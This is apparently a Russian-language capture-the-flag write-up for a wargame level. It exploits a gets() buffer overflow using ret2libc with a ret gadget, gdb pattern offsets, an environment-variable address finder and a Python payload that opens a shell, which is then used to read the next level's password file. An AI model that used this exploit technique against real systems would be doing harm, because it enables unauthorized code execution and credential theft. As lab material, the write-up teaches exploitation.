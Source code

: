 
# get - Уязвимость к переполнению буфера
=> 0x80484ed <p+25>:	call   0x80483c0 <gets@plt>

# Выполняется проверка, чтобы убедиться, что мы не перезаписываем адрес возврата на адрес в стеке
0x80484fb <p+39>:	and    eax,0xb0000000
0x8048500 <p+44>:	cmp    eax,0xb0000000

# обманем тест, используя 'ret' для эксплойта libc
# находим адрес функции 'system' в libc
gdb> info function system
0xb7e6b060  system

# находим адрес функции 'ret'
=> 0x804853e <p+106>:	ret

# Экспортируем shell, который хотим использовать
$> export SHELL=/bin/sh

# Пишем программу для поиска адресов переменных окружения
$> vi proga.c

#include <stdio.h>
#include <stdlib.h>

int main(int argc, char *argv[])
{
    printf("%s at %p\n", argv[1], getenv(argv[1]));
}

$> gcc proga.c -o proga; ./proga SHELL
SHELL is at 0xbffff935

# нужно найти, по какому смещению происходит переполнение буфера

gdb> pattern create 100
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
gdb> r < <(echo 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL')
gdb> pattern search
Registers contain pattern buffer:
EBP+0 found at offset: 76
EIP+0 found at offset: 80

# Теперь просто надо подготовить payload

$> python -c 'print "a" * 80 + "\x3e\x85\x04\x08" + "\x60\xb0\xe6\xb7" + "DUMM" + "\x35\xf9\xff\xbf"' > /tmp/payload2
$> cat /tmp/payload2 - | ./level2

> cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02


# ╮(￣_￣)╭